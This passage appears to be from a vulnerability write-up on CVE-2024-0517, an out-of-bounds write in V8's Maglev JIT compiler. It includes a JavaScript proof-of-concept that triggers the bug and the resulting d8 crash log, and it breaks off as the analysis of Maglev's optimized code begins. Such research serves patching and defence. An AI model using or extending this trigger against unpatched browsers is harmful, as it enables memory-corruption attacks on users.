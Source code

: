 We will now analyze the vulnerability patched in CVE-2024-0517.  

This vulnerability arises when Maglev, one of the JIT compilers in the V8 engine, optimizes and executes code. When a child constructor creates an object, an uninitialized `Current_raw_allocation` value causes an OOB (Out-Of-Bounds) write.  

Here is a portion of the JavaScript code that triggers the vulnerability. When running the PoC code, an error like the one shown below occurs. This error happens because something overwrites the "free-space" section, which is then detected, causing a fatal error and terminating the program.  

The code and error message are as follows:

```jsx
class ClassParent {}
class ClassBug extends ClassParent {
        constructor(a20, a21, a22) {
                const v24 = new new.target();
                let x = [empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object];
                super();
                let a = [1.1];
                this.x = x;
                this.a = a;
                JSON.stringify(empty_array);
        }
        [1] = dogc();
}
```

```jsx
~/v8/out$ ./debug/d8 --allow-natives-syntax ./code/exploit.js

#
# Fatal error in ../../src/objects/free-space-inl.h, line 75
# Check failed: !heap->deserialization_complete() || map_slot().contains_map_value(free_space_map.ptr()).
#
#
#
#FailureMessage Object: 0x7ffe9d485188
==== C stack trace ===============================

    ./debug/d8(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x5b9ae47a7fde]
    ./debug/d8(+0x8c0960d) [0x5b9ae47a260d]
    ./debug/d8(V8_Fatal(char const*, int, char const*, ...)+0x1ac) [0x5b9ae477853c]
    ./debug/d8(v8::internal::FreeSpace::IsValid() const+0xdf) [0x5b9ae0e79e1f]
    ./debug/d8(v8::internal::FreeSpace::next() const+0x1d) [0x5b9ae0e789dd]
[truncated]
```

Let's check what overwrote this free space.  

Maglev optimized the code as shown below. [1] indicates `new.target()`, [2] indicates the allocation of the x array, and [3] indicates the allocation of the `this` object and array `a` through the `super()` function.  

